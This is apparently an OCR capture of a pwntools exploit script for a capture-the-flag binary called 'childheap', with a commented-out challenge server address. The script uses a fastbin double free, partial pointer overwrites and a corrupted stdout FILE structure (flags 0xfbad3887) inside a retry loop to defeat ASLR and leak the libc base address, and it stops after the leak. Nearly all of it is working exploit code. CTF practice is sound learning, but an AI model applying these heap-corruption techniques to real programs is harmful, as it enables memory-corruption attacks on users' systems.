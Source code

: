     
    while(1):
    	context(arch="amd64",os="linux",log_level="DEBUG")
    	#p=remote("ctf.j0n9hyun.xyz",3033)
    	env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    	p=process("./childheap",aslr="False")
            #gdb.attach(p,'code\nb *0x968+$code\n')
    	e=ELF("./childheap")
    	libc=ELF("./libc.so.6")
    
    	malloc(0,100,p64(0)*11+p64(0x71))
    	malloc(1,100,"A"*8)
    	#malloc(2,100,"B"*8+p64(0)*2+p64(0))
    	malloc(2,100,"B"*8+p64(0)*2+p64(0x51))
    	#malloc(4,100,"C"*8)
    	free(0)
    	free(1)
    	free(0)
    	#pause()
    	
    	malloc(0,100,p8(0x60))
    	malloc(1,100,"A"*8)
    	malloc(2,100,"B"*8)
    	malloc(3,100,p64(0)+p64(0x91))
    
    
    	free(1)
    	malloc(1,100,p16(0xc5dd))
            malloc(4,100,"C"*8)
    
    	free(4)
    	free(0)
    	free(4)
    
    	malloc(4,100,p8(0x70))
    	malloc(0,100,"A"*8)
    	malloc(4,100,"A"*8)
    	malloc(0,100,"A"*8)
    
    	try:
    		malloc(4,100,"A"*3+p64(0)*6+p64(0xfbad3887)+"\x00"*25)
    		gdb.attach(p,'code\nb *0xa09+$code\n')
    		pause()
    	except:
    		p.close()
    		continue
    
    
    	#log.info(tmp)
    	#p.recv(0x48)
    	#log.info(u64(p.recv(8))-0x73250)
    	p.recv(0x88)
    	pause()
    	libc_base=u64(p.recv(6)+"\x00\x00")-libc.symbols['_IO_2_1_stdin_']
    	log.info("libc base::"+hex(libc_base))
    	#pause()
    